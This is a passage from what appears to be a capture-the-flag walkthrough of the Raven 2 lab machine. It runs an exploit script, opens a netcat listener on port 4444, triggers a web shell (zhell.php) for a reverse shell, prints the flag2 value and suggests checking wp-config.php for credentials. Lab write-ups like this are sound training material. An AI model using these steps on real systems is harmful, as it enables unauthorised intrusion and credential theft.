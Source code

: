 
We launch the script:

```bash
python3 anarconder.py
```

And open in listening mode port 4444  with netcat:

```bash
nc -lnvc 4444
```

Now, I will open in the browser http://192.168.56.105/zhell.php to get the reverse shell in my netcat conection.


![Reverse shell](img/raven2-12.png)

And we can browse to /var/www and get flag2.txt

![Flag2](img/raven2-14.png)

flag2.txt in plain text:

```bash
flag2{6a8ed560f0b5358ecf844108048eb337}
```

Also, a nice-thing-to-do on every wordpress installation is checking out for credentials in the config file (if existing). So by browsing to /var/www/html/wordpress, we can see:

![wp-config.php file](img/raven2-15.png)
